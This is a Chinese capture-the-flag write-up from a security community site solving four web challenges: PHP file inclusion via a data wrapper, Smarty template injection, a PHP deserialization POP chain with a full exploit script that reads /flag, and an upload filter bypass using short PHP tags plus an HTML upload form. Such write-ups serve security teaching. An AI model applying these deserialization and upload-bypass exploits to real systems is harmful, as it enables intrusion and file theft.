# 第一届“启航杯”网络安全挑战赛 web 全wp-先知社区

> **来源**: https://xz.aliyun.com/news/16684  
> **文章ID**: 16684

---

第一届“启航杯”网络安全挑战赛 web 全wp

## Easy\_include

源码如下

```
<?php
error_reporting(0);
//flag in flag.php
$file=$_GET['file'];
if(isset($file))
{
    if(!preg_match("/flag/i",$file))
    {
        include($file);
    }
    else
    {
        echo("no no no ~ ");
    }
}
else
{
    highlight_file(__FILE__);
}

?>
```

简单文件包含，尝试伪协议

input 尝试了没有效果

然后尝试 data



成功

GZ 平台一般都是环境变量中有，尝试读取


那就一步一步的找

根目录没有  


尝试  


读取 flag



....  
读取 flag.php



## Web\_IP



访问 flag 得到 ip



访问 hint 没有东西

见过这种题



然后  


Smarty 模板注入

  
得到 flag



## Web\_pop

得到源码如下

```
<?php
error_reporting(0);
highlight_file(__FILE__);
class Start{
    public $name;
    protected $func;
 
    public function __destruct()
    {
        echo "Welcome to QHCTF 2025, ".$this->name;
    }
 
    public function __isset($var)
    {
        ($this->func)();
    }
}
 
class Sec{
    private $obj;
    private $var;
 
    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
    }
 
    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}
 
class Easy{
    public $cla;
 
    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}
 
class eeee{
    public $obj;
 
    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
}
 
if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```

目的是触发 invoke

链子如下

```
1.php:36, Sec->__invoke()
1.php:19, Start->__isset()
1.php:59, eeee->__clone()
1.php:46, Easy->__call()
1.php:29, Easy->check()
1.php:29, Sec->__toString()
1.php:12, Start->__destruct()
```

```
<?php
error_reporting(0);
highlight_file(__FILE__);
class Start{
    public $name;
    public $func;

    public function __destruct()

    {
        echo "__destruct";
        echo "Welcome to QHCTF 2025, ".$this->name;

    }

    public function __isset($var)
    {
        echo "__isset";
        ($this->func)();
    }
}

class Sec{
    public $obj;
    public $var;

    public function __toString()
    {
        $this->obj->check($this->var);
        echo "__toString";
        return "CTFers";
    }

    public function __invoke()
    {
        echo "__invoke";
        echo file_get_contents('/flag');
    }
}

class Easy{
    public $cla;

    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
        echo "__call";
    }
}

class eeee{
    public $obj;

    public function __clone()

    {
        echo "__clone";

        if(isset($this->obj->cmd)){

            echo "success";
        }
    }
}

if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}

$start=new Start();
$start->func=new Sec();
$start->name=new Sec();
$eeee=new eeee();
$start->name->var=$eeee;
$start->name->obj=new Easy();
$eeee->obj=$start;

unserialize(serialize($start));


```



## PCREMagic

得到源码

```
<?php
function is_php($data){
     return preg_match('/<\?php.*?eval.*?\(.*?\).*?\?>/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    if (!is_dir($user_dir)) {
        mkdir($user_dir, 0755, true);
    }
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
    exit;
}
?> 1
```

文件上传，我们先写一个前端文件上传

然后那个 waf 很好绕过，一个短标签就 ok 了

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>File Upload</title>

</head>

<body>
    <h1>Upload a File</h1>

    <form id="uploadForm" action="http://challenge.qihangcup.cn:34173/" method="POST" enctype="multipart/form-data">
        <label for="fileInput">Choose file:</label>

        <input type="file" id="fileInput" name="file" required>
        <br><br>
        <button type="submit">Upload File</button>

    </form>

    <script>
        // 监听表单提交
        document.getElementById("uploadForm").addEventListener("submit", function(event) {
            event.preventDefault();  // 阻止默认提交

            const formData = new FormData(this);  // 创建 FormData 对象
            const xhr = new XMLHttpRequest();  // 创建一个新的请求

            // 设置请求方式和目标URL
            xhr.open("POST", "http://challenge.qihangcup.cn:34173/", true);

            // 设置回调函数，处理响应
            xhr.onload = function() {
                if (xhr.status === 200) {
                    alert("File uploaded successfully!");
                    console.log(xhr.responseText);  // 打印返回的响应内容
                } else {
                    alert("File upload failed!");
                    console.error(xhr.responseText);
                }
            };

            // 发送请求
            xhr.send(formData);
        });
    </script>

</body>

</html>

```



然后抓包



得到路径




